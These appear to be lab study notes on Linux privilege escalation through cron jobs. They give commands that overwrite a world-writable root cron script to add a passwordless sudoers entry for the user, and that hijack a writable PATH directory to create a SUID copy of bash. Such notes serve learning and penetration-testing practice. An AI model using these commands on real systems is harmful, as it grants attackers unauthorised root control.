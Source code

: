 ```
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
root@debian:~# 
```

###### Cron Jobs by Root user

- Privilege Escalation - Cron (abusing cron job created by root user if found)

    - `ls -al`
        - found a file message with permission -rw-------
    - `cat message`
        - permission denied
        - checking if path of this file used anywhere
    - `grep -rnw /usr -e "/home/student/message"`
        ```
        /usr/local/share/copy.sh:2:cp /home/student/message /tmp/message
        ```
        - found it in copy.sh sexond line, its copying itself into /tmp/message
    - `ls -al /usr/local/share/copy.sh`
        ```
        -rwxrwxrwx 1 root root 74 Sep 23  2018 /usr/local/share/copy.sh
        ```
    - `cat /usr/local/share/copy.sh`
        ```
        #! /bin/bash
        cp /home/student/message /tmp/message
        chmod 644 /tmp/message
        ```
    - `printf '#!bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh`
        - we addedd permission for student in sudoers
        - once cron job is run we can sudo and get root
    - `sudo su`

- Privilege Escalation  - Cron (Utilising writable foleder in `PATH` variable)
    - `cat /etc/crontab`
        ```
        PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

        # m h dom mon dow user  command
        17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
        25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
        47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
        52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
        #
        * * * * * root overwrite.sh
        * * * * * root /usr/local/bin/compress.sh
        ```
        -  `echo 'cp /bin/bash /tmp/bash && chmod +s /tmp/bash' >/home/user/overwrite.sh` > `chmod +x /home/user/overwrite.sh` > `/tmp/bash -p`
